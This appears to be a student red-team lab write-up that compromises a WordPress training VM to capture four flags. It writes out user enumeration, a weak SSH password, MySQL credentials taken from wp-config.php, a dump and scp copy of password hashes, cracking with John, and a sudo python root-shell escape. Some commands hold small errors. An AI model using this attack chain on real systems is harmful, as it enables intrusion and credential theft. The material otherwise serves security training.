 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110 #
  
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp  OpenSSH 6.7p1 Debian 
  - 80/tcp  Apache https 2.4.1
  - 111/tcp rocbind 2-4 
  - 139/tcp netbios-ssn Samba smbd 
  - 445/tcp netbios-ssn Samba smbd 



The following vulnerabilities were identified on each target:
- Target 1
  - CWE-521 Weak user password
  - User Enumeration
  - Privilege Escalation  
  - Unsalted user password hash in MySql
  - Open Port 22 
  - wp-config in default location


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - ** Exploit Used **
      - Wordpress scan to enumerate all users
      - wpscan --url http://192.168.1.110 --enumerate
    - After receiving information on users, we can then guess Michael's password with a brute force attack
      - ssh Michael@192.168.1.110
      - password: michael 
      - flag 1 found in var/www/html/
      - nano service.html
       
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit as flag 1
      - ssh Michael@192.168.1.110
      - locate *flag*.txt 
      - cd /var/www
      - ls -l 
      - cat flag2.txt


    - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Wordpress configuration and MySQL exploit
      - First, we located login details for the mysql database in the wp-config.php file
      - Flag 3 was then found in the wp_posts table
      - mysql -uroot -p
      - R@v3nSecurity
      - show databases;
      - use Wordpress;
      - show tables; 
      - select * wp_posts 


  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Privilege Escalation
      - Within the same database, we were able to locate 2 unsalted hashes for Michael and Steven
      - mysql -uroot -p
      - R@v3nSecurity
      - show databases;
      - use Wordpress;
      - show tables; 
      - select * from wp_user into hashes.txt
      - After saving the query into the hashes.txt file, we can then exfiltrate the file back onto our kali machine
      - scp -r Michael@192.168.1.110:/home/hashes.txt ~/.
      - We can then use John to crack the unsalted hashes after editing the file with nano
      - John hashes.txt
      - This reveals a password for Steven "pink84"
      - ssh steven@192.168.1.105
      - pink84 
      - To then create a interactive shell we use the following command
      - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      - flag4 is then located in the root directory 
       
